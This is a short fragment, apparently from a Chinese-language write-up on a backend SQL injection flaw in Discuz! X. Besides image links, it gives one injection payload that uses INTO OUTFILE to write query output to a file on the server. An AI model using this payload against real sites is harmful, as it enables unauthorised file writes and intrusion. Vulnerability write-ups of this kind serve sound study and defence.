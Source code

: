 ![](resource/Discuz!X系列全版本后台Sql注入漏洞/media/rId27.png)

直接构造语句

    1' into outfile 'c:\\wamp64\\tmp\\1.txt'  -- a
